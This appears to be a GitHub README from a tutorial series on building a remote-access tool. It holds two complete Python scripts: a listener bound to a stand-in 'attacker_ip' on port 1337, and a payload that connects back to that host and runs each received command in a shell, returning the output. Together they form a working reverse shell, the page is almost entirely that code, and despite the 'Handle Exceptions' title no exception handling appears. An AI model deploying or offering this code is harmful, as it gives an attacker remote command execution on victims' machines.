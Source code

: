 <h2 align="center">Handle Exceptions</h2>
<p align="center"><img width="350" height="350" src="./src/banner_cnph.gif"></p>

- - - - - - - - - - - - - - - - - - - - - -
> [listener.py](listener.py)
```python
import socket

listener = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

listener.bind(("attacker_ip", 1337))

listener.listen()

print("Server has started")

connection, address = listener.accept()

def recv_data():
    original_size = connection.recv(2048).decode("utf-8")
    original_size = int(original_size)
    
    data = connection.recv(2048) # data at instance
    while len(data) != original_size:
        data = data + connection.recv(2048)
    return data

while True:
	cmd = input("enter a command: ")
	
	if cmd == "quit":
		connection.send(b"quit") # string
		connection.close()
		break
		
	connection.send(bytes(cmd, "utf-8"))
	
	output = recv_data()
	print(output.decode("utf-8"))

print("Server has stopped")
```
---
> [payload.py](payload.py)
```python
import socket
import subprocess

payload = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

payload.connect(("attacker_ip", 1337))

print("Connected")

def send_data(ouput_data):
    size_of_data = len(ouput_data)
    size_of_data = str(size_of_data)
    payload.send(bytes(size_of_data, "utf-8"))
    payload.send(ouput_data)
 
while True:
	cmd = payload.recv(2048)
	
	if cmd == b"quit":
		payload.close()
		break
		
	cmd = cmd.decode("utf-8") # string
	output = subprocess.check_output(cmd, shell = True)
	send_data(output)

print("Disconnected") # display disconnection message
```